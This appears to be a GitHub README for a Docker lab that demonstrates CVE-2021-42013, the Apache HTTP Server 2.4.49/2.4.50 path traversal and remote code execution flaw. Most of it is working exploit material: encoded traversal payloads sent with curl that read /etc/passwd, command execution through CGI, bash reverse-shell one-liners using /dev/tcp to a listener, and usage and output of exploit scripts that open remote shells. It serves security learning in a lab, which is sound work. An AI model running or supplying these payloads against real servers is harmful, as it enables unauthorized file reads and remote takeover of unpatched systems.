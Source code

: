 # CVE-2021-42013
## Introduction
It was found that the fix for CVE-2021-41773 in Apache HTTP Server 2.4.50 was insufficient. An attacker could use a path traversal attack to map URLs to files outside the directories configured by Alias-like directives. If files outside of these directories are not protected by the usual default configuration "require all denied", these requests can succeed. If CGI scripts are also enabled for these aliased pathes, this could allow for remote code execution. This issue only affects Apache 2.4.49 and Apache 2.4.50 and not earlier versions [[1]](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-42013).

## Docker container lab to play/learn with CVE-2021-42013

1. File disclosure vulnerability configuration:
```bash
$ docker build -t apache-default default_conf
$ docker run -dit --name apache-app -p 81:80 apache-default
```

- Proof of Concept:
```bash
$ curl -s --path-as-is "http://172.17.0.2:80/cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```
- using `path_traversal_vuln.py`
```bash
$ python3 path_traversal_vuln.py -h                                                                         

    >> CVE-2021-42013 - Path Traversal
    >> by twseptian

usage: path_traversal_vuln.py [-h] -t URL -p TARGET_PORT -x PAYLOAD -f FILE_READ

CVE-2021-42013 - Path Traversal

optional arguments:
  -h, --help            show this help message and exit
  -t URL, --target URL  Target IP
  -p TARGET_PORT, --port TARGET_PORT
                        Target port
  -x PAYLOAD, --execute PAYLOAD
                        Path Traversal Payload
  -f FILE_READ, --file FILE_READ
                        File to read
```
```bash
$ python3 path_traversal_vuln.py -t 172.17.0.2 -p 80 -x '.%%32%65/.%%32%65/.%%32%65/.%%32%65' -f /etc/passwd                                                                                  
```
![Path traversal](path_traversal.png)


2. Remote Code Execution  (CGI enabled) configuration:
```
$ docker build -t apache-cgi cgi_mod_enable
$ docker run -dit --name apache-lab -p 82:80 apache-cgi
```

- Proof of Concept:
```bash
$ curl -s --path-as-is -d "echo Content-Type: text/plain; echo; id" "http://172.17.0.3:80/cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/bin/sh"
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```

- PoC using bash reverse shell
```bash
$ curl -s --path-as-is -d "echo Content-Type: text/plain; echo; bash -i >& /dev/tcp/172.17.0.1/4444 0>&1" "http://172.17.0.3:80/cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/bin/bash"
```

- netcat output
```bash
$ nc -lvnp 4444                                                            
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 172.17.0.3.
Ncat: Connection from 172.17.0.3:35660.
daemon@dcbbed945af7:/bin$ id
id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
daemon@dcbbed945af7:/bin$ 
```
-using `rce.py`
```bash
$ python3 rce.py -h

    >> CVE-2021-42013 - Remote Code Execution
    >> by twseptian

usage: rce.py [-h] -t URL -p TARGET_PORT -x PAYLOAD -s SHELL

CVE-2021-42013 - Path Traversal

optional arguments:
  -h, --help            show this help message and exit
  -t URL, --target URL  Target IP
  -p TARGET_PORT, --port TARGET_PORT
                        Target port
  -x PAYLOAD, --execute PAYLOAD
                        Path Traversal Payload
  -s SHELL, --shell SHELL
                        shell
```
```bash
$ python3 rce.py -t 172.17.0.3 -p 80 -x '%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65' -s "/bin/bash -c 'bash -i >& /dev/tcp/172.17.0.1/4444 0>&1'"
```
- netcat listener
```bash
$ nc -lvnp 4444                                                    
listening on [any] 4444 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.3] 41052
daemon@82f07f4b32a8:/bin$ 
```
![using rce.py](rce.png)

- using `rce2.py`
```bash
$ python3 rce2.py -h

    >> CVE-2021-42013 - Remote Code Execution
    >> by twseptian

usage: rce2.py [-h] -t URL -p TARGET_PORT -L LOCALHOST -P LOCALPORT -x PAYLOAD

CVE-2021-42013 - Path Traversal

optional arguments:
  -h, --help            show this help message and exit
  -t URL, --target URL  Target IP
  -p TARGET_PORT, --port TARGET_PORT
                        Target port
  -L LOCALHOST, --lh LOCALHOST
                        Localhost/Local IP
  -P LOCALPORT, --lp LOCALPORT
                        Localport
  -x PAYLOAD, --execute PAYLOAD
                        Path Traversal Payload
```
```bash
$ python3 rce2.py -t 172.17.0.3 -p 80 -L 172.17.0.1 -P 4444 -x '.%%32%65/.%%32%65/.%%32%65/.%%32%65'

    >> CVE-2021-42013 - Remote Code Execution
    >> by twseptian

[!] Payload: .%%32%65/.%%32%65/.%%32%65/.%%32%65
[*] Setting up a netcat listener
listening on [any] 4444 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.3] 41122
bash: initialize_job_control: no job control in background: Bad file descriptor
daemon@82f07f4b32a8:/bin$ id
id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
daemon@82f07f4b32a8:/bin$
```

![using rce.py](rce2.png)

References
- [[1] CVE-2021-42013](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-42013)
- [[2] Apache HTTP Server 2.4.50 - Path Traversal & Remote Code Execution (RCE)](https://www.exploit-db.com/exploits/50406)
